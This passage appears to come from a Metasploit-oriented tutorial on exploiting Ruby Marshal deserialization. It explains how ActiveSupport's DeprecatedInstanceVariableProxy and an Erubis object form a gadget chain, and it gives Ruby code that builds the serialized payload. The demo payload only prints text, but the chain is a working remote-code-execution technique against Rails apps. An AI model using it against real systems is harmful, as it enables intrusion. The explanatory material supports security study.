 ```ruby
        def method_missing(called, *args, &block)
          warn caller, called, args
          target.__send__(called, *args, &block)
        end
```

Or the ```#inspect``` method:

```ruby
      def inspect
        target.inspect
      end
```

### The Exploit Code

In other words, to create our attack, here's what we do:

1. Create an Erubis object
2. Assign the ```@src``` instance with our malicious code.
3. Create a DeprecatedInstanceVariableProxy object, and deprecate ```:result```
4. Assign the ```@instance``` variable of DeprecatedInstanceVariableProxy to our Erubis object
5. Assign the ```@method``` variable of DeprecatedInstanceVariableProxy to our ```:result``` method

This translates the following in code. Notice that:

1. We are overriding Erubis and ActiveSupport because we don't want to execute our payload (```@src```)
   while crafting the exploit.
2. If this was in Metasploit Framework, the serialized object would end up being under the context
   of Metasploit Framework. We want to avoid that, therefore we want to craft this malicious object
   in a separate Ruby process.

```ruby
exploit = %Q|
module Erubis;class Eruby;end;end
module ActiveSupport;module Deprecation;class DeprecatedInstanceVariableProxy;end;end;end

erubis = Erubis::Eruby.allocate
erubis.instance_variable_set :@src, \\"puts 'Code execution, weeee!'; puts caller * \\\\\\"\\\\n\\\\\\"\\"

proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.allocate
proxy.instance_variable_set :@instance, erubis
proxy.instance_variable_set :@method, :result

hash = {
    'a' => 'some value',
    'exploit' => proxy
}

print Marshal.dump(hash)
|

dump = `ruby -e "#{exploit}"`
print dump
```
